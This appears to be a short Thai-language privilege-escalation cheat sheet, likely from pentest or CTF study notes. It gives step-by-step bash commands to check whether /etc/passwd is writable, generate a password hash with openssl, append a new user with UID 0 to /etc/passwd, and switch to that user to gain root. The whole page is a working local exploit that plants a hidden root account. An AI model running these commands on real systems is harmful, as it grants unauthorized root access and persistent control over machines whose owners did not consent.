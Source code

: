 #privesc 
# Step
1. ดู user หากแก้ไข passwd ได้แปลว่าใช้วิธีนี้ได้
```bash
cat /etc/passwd
```
2. สร้าง password และ save hash เอาไว้
```bash
openssl passwd -1
```
3.ตั้งค่า root
```bash
echo 'drasogun:hash:0:0:drasogun:/home/drasogun:/bin/bash' >> /etc/passwd
```
4. เข้า root
```bash
su drasogun
```